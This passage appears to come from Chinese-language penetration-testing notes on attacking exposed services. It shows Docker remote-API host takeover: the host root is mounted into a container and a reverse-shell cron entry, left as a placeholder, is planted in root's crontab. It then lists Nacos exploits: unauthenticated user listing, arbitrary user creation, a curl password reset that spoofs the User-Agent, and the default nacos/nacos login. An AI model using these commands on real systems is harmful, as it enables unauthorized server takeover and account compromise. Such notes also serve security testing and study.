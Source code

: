 ```php
#挂载宿主机的根目录到容器内的mnt目录
docker -H tcp://<target>:2375 run -it -v /:/mnt nginx:latest /bin/bash
#反弹shell
echo '反弹shell命令' >> /mnt/var/spool/cron/crontabs/root
```

## 2.4、Nacos

Nacos是一个开源的动态服务发现、配置管理和服务管理平台，它提供了注册中心、配置中心和服务管理等功能，帮助开发人员实现微服务架构中的服务注册、配置管理以及服务发现等需求。

作为一个开源工具，漏洞还是被披露不少的，

**未授权访问：**[/nacos/v1/auth/users?pageNo=1&pageSize=1](http://192.168.80.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=1) 直接查看用户

**任意用户添加**：POST [/nacos/v1/auth/users](http://192.168.80.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=1) username= & password=

**任意用户密码修改**：curl -X PUT '[http://127.0.0.1:8848/nacos/v1/auth/users?accessToken](http://127.0.0.1:8848/nacos/v1/auth/users?accessToken)\\=' -H 'User-Agent:Nacos-Server' -d 'username\\=test1&newPassword\\=test2'

**弱口令**：nacos/nacos

![image.png](assets/1698900835-9700237e7294fbd41b6c24fdf1dc7404.png)

通过编排密码爆破进后台，发现大量配置文件，但敏感信息均被加密
